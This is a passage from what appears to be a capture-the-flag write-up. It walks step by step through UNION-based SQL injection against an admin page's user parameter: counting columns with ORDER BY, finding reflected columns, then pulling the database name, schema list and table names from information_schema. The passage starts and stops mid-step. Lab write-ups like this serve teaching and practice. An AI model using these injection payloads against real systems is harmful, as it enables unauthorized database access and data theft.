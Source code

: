 	# Payload
	user=1 ORDER BY 1
	```
	![](theMarketplace found no. of columns.png)
5. Hypothesis 2
	```
	# Failed at ORDER BY 5 Because only querying 4 columns
	SELECT username, user_id, isAdministrator, unknown_column WHERE user_id = '$_GET['user_input']'
	```
	- No. of Columns: 4
6. Determine which columns are reflected
	```
	# SQLi Payload 
	GET /admin?user=-1+UNION+SELECT+1,2,3,4
	
	# Payload
	user=-1 UNION SELECT 1,2,3,4
	```
	![](theMarketplace found which columns reflected.png)
	- Reflected Columns: 1,2
7. Determine current database
	```
	# SQLi Payload 
	GET /admin?user=-1+UNION+SELECT+database(),database(),3,4 
	
	# Payload
	user=-1 UNION SELECT database(),database(),3,4
	```
	![](theMarketplace sqli found database name.png)
	- Database Name: marketplace
8. If you want to determine all the databases
	```
	GET /admin?user=-1+UNION+SELECT+group_concat(SCHEMA_NAME),2,3,4+FROM+information_schema.schemata
	
	# Payload
	UNION SELECT group_concat(SCHEMA_NAME),2,3,4 FROM information_schema.schemata
	```
1. Determine tables in the database(marketplace)
	```
	# SQLi Payload 
	GET /admin?user=-1+UNION+SELECT+1,group_concat(table_name),3,4+FROM+information_schema.tables+WHERE+table_schema='marketplace'
	